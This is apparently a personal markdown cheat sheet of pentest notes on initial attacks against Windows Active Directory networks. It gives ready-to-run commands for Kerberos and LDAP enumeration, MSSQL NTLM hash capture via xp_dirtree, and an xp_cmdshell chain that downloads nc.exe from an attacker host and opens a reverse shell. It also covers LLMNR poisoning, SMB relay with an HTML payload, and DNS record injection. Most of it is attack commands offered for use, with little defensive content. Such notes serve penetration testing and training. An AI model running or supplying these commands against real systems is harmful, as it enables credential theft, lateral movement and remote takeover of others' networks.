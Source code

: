 # Phase 0:  Initial attack vectors
---
## Navigation
- **[[#Services enumeration]]**
- **[[#Attacks]]**
	- [[#1-Kerberos]]
	- [[#2-Microsoft SQL Server]]
	- [[#3-LLMNR Poisoning]]
	- [[#4-SMB Relay attack]]
	- [[#5-DNS]]
	- [[#6-Pv6 DNS Takeover]]

---
# Services enumeration
## Kerberos
- [**Kerbrute**](https://github.com/ropnop/kerbrute)
```txt
go get github.com/ropnop/kerbrute
```
- [**LDAP**](https://book.hacktricks.xyz/pentesting/pentesting-ldap)
 ```bash
 #install -> pip install ldapdomaindump
 ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
 ```
- [**RPC**](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)  -> [**Tool**](https://github.com/m4lal0/RPCrecon)
```txt
#Connecting
rpcclient <ip> -U <username>

#Enumerate domain users
enumdomusers

#Enumerate domain groups
enumdomgroups
```

---
# Attacks
## 1-Kerberos
**Synchronizing time is important**
```bash
sudo apt install ntpdate
ntpdate <RemoteMachine-IP>
```
**Enumeration**
- **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 - **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
 - **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 ```
 - **impacket-GetADUSers.py**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes. 
 -- *If no entries are returned that means users don’t have email addresses specified*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 ```
 - [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
---
## 2-Microsoft SQL Server
```bash
impacket-mssqlclient <DOMAIN>/<USER>:<PASSWORD>@<IP>
```
### Capturing NTLM hashes
**Pre-requesties**
- Having access to the server.
- Downloading -> [**Responder.py**](https://github.com/SpiderLabs/Responder)

 1- Running Responder
```bash
sudo responder -I tun0 
```
 2- Starting an HTTPSever
```bash
sudo python3 -m httpserver 80
```
 3- Listing a fakeshare to trigger the protocol
```bash
xp_dirtree "\\<ATTACKER-IP>\meow
```
 4- Check Responder and take the hash :)
### Gaining a shell
You can execute commands on MsSQL server using:
```bash
EXEC xp_cmdshell '<COMMAND'
```
Then you can upload a `nc.exe`:
```bash
EXEC xp_cmdshell 'powershell -c curl http://<ATTACKER-IP>/nc.exe -o <PATH>'
```
Then trigger it:
```bash
EXEC xp_cmdshell '<PATH>/nc.exe -e cmd <ATTACKER-IP> <PORT>'
```
---
## 3-LLMNR Poisoning
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]
### Exploitation
- Use responder to MITM and recieve the hash -> [**Responder.py**](https://github.com/SpiderLabs/Responder)
- [**Tool**](https://github.com/m4lal0/smbrelay)
### Mitigation
- See MITRE **[[#Refrences]]** below.
---
## 4-SMB  Relay attack
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
### Checking if SMB signing id disabled
```bash 
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
### Exploitation
- Either by waiting for somenone to mistyping a domain or by sending an html payload file
#### HTML payload file
```html
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
####  Tool
```bash
smbrelayx.py -h 10.0.0.6 -c "ipconfig" # 'c' is optional to execute commands.
```
### Gaining an shell
```bash
#Tools (Require password)
wmiexec #-> stealthier (Can be used to PASSTHEHASH and get a shell)
psexec #-> stealthier
smbexec #-> not stealthy
```
---
## 5-DNS
Adding records
- Preferred Tool [**dnstoolpy**](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)
```bash
dnstool.py -u DOMAIN\\USERNAME -p PASSWORD -r FAKESYSTEM.FQDN -a add -d YOUR_IP DC_HOSTNAME
```

---
## 6-IPv6 DNS Takeover
Useful and important
- [**Delegation attack**](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [**Attack**](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

## Refrence
- [**BLOG Explaning various techniques**](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
- [**LLMNR Poison MITRE**](https://attack.mitre.org/techniques/T1557/001/) **&**  [**LLMNR Poison Meduim**](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
- [**SMB Relay**](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)
